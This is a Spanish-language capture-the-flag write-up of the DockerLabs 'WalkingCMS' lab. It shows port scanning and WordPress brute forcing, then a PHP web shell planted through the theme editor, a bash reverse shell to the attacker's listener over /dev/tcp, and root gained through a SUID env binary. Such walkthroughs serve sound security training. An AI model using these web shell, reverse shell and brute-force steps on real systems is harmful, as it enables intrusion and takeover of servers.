









# WalkingCMS

Link del laboratorio -> [WalkingCMS](https://dockerlabs.es)

## Tags

`eJPT` `RCE` `Brute Force` `Malicious PHP`

## Despliegue

Desplegamos el laboratorio ejecutando el siguiente comando como root. `bash auto_deploy.sh walkingcms.tar`



Una vez desplegado el laboratorio hacemos su debido reconocimiento.

## Reconocimiento

Lanzamos un escaneo nmap con los siguientes parámetros: `nmap -p- --open -n -Pn -vvv 172.17.0.2 -oG allPorts`

`-p-` ⮞ Indica que quiere escanear <b>TODOS</b> los puertos.<br>
`--open` ⮞ Modifica el parámetro anterior filtrando por puertos <b>ABIERTOS</b>.<br>
`-n` ⮞ Declara que <b>NO</b> queremos que nos haga resolución DNS. (En estos casos, no es necesario ya que demoraría mucho el escaneo.)<br>
`-Pn` ⮞ <b>Obliga</b> a hacerse el escaneo, independientemente de si la IP está activa o no.<br>
`-vvv` ⮞ Te muestra <b>TODA</b> la información brindable del escaneo. El parámetro se puede calibar por `-v`, `-vv` y `-vvv`, este último indicando que  queremos que nos muestre <b>TODO</b> lo posible.<br>
`-oG` ⮞ Este parametro hace un guardado de toda la información recopilada en formato grepeable, haciendo así una mejor extracción de datos.<br>



Aparentemente, hay solo 1 puerto abierto, el cual es el 80. Hacemos un segundo escaneo, ahora indicando que nos muestre información detallada sobre el puerto.

`nmap -p80 -sCV 172.17.0.2 -oN targeted`

`-p80` ⮞ Indica que únicamente queremos escanear el puerto 80 (HTTP).

`-sCV` ⮞ Es en realidad tres opciones combinadas:

    -sC ⮞ Usa scripts predeterminados de nmap (NSE - Nmap Scripting Engine) para detectar servicios, vulnerabilidades básicas, etc.

    -sV ⮞ Detecta versiones de los servicios corriendo en los puertos abiertos (por ejemplo, si es un Apache 2.4.52, etc.).

`-oN targeted` ⮞ Guarda el resultado del escaneo en un archivo de texto plano llamado targeted.
(El formato -oN es "normal output", fácil de leer a mano).



## Página Web

Nos dirigimos a su página web alojada en el puerto <b>80</b>. Esta es la página por defecto de Apache. Procedemos a hacer fuzzing web con gobuster.<br>
`gobuster dir -u https://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash`



Nos arroja un estado <b>200</b> en el sub-dominio /wordpress. (El estado 200 significa que existe esa URL y de que podemos acceder a ella.)<br>
Vamos a `https://172.17.0.2/wordpress`. 



Esto nos muestra una página web basada en wordpress con el título "Web Invulnerable". Le pegamos un ojo a la página web y terminamos topando en 
`172.17.0.2/wordpress/index.php/pagina-ejemplo`.



Esta página de "ejemplo" nos dice lo siguiente:
><i>Como nuevo usuario de WordPress, deberías ir a <u><b>tu escritorio</b></u> para borrar esta página y crear nuevas páginas para tu contenido. ¡Pásalo bien!</i>

Al ver esto, pinchamos en el enlace de <u><b>tu escritorio</u></b> y nos lleva a `http://172.17.0.2/wordpress/wp-login.php?redirect_to=http%3A%2F%2F172.17.0.2%2Fwordpress%2Fwp-admin%2F&reauth=1`, este es un panel de login de wordpress. Al no haber ninguna pista de contraseña utilizaremos la herramienta wpscan para hacer fuerza bruta.

```bash
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp                            
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/wordpress/ [172.17.0.2]
[+] Started: Sun Apr 27 13:59:11 2025

[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

Utilizando la herramienta, nos muestra un usuario llamado "mario". Ahora procedemos a hacer un ataque de fuerza bruta al panel de login.

```bash
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/wordpress/ [172.17.0.2]
[+] Started: Sun Apr 27 14:02:09 2025

Interesting Finding(s):

[!] Valid Combinations Found:
 | Username: mario, Password: love
```

Una vez realizado el ataque, nos entrega la contraseña "love". Iniciamos sesión.

Esta página es un panel de ajustes de wordpress. Ingando un poco en busca de posibles vectores de ataque, nos topamos con un editor de temas. Dentro de este, aparece un tema llamado "Twenty Twenty-Two" escrito en CSS. Para llegar a vulnerar el archivo <b>index.php</b> reemplazaremos el código por el siguiente en PHP:

```php
<?php
    system($_GET['cmd']);
?>
```



Le damos a actualizar archivo y una vez editado el código ingresamos a el enlace con el parametro ?cmd=whoami, así nos muestra el usuario con el cual operamos el cual es www-data.<br>`172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=whoami`. Una vez ingresemos a la página, nos mostrará lo siguiente:



Felicitaciones! Ya podemos ejecutar código en el servidor.

## Reverse Shell

Para la Reverse Shell es tan sencillo cómo ejecutar el cómando `bash -c 'sh -i >& /dev/tcp/172.17.0.1/443 0>&1'` aunque antes de ejecutarlo, tendremos que URL encodearlo en la página [https://www.urlencoder.org/es/](https://www.urlencoder.org/es/). El resultado del URL Encode será `bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F443%200%3E%261%27`. Antes de ejecutarlo, nos ponemos en escucha con netcat por el puerto 443 de esta manera `sudo nc -lvnp 443`.

Ahora si! Ya podremos ejecutar el cómando en la página web. Una vez ejecutado, instantáneamente obtendremos una reverse shell en nuestra terminal. Corremos el cómando `whoami` y vemos que somos el usuario www-data de nuevo, pero ahora desde un entorno más facil de operar.



## Tratamiento de la TTY

Para poder operar mejor, introduciremos los siguientes cómandos para hacer el tratamiento de la TTY.

`script /dev/null -c bash`

<b>(Hacemos CTRL + Z)</b>

```bash
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

## Escalada de privilegios

En el /etc/passwd no encontramos ningún usuario mario al que podamos migrar con las credenciales que ya tenemos. Tampoco podemos hacer "sudo -l".Buscaremos por binarios con permisos SUID desde la raíz:

```bash
find / -perm -4000 2>/dev/null
________________________________________________
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
```

Vemos que podemos ejecutar el binario `env`. Nos dirigimos a [gtfobins](https://gtfobins.github.io/gtfobins/env/#suid) para utilizar el binario para convertirnos en root.

Ejecutamos el cómando que nos brinda gtfobins. 

```bash
www-data@124139aa153d:/var/www/html/wordpress/wp-content/themes/twentytwentytwo$ /usr/bin/env /bin/sh -p
# whoami
root
#
```

Hemos conseguido convertirnos en el usuario root! Felicitaciones!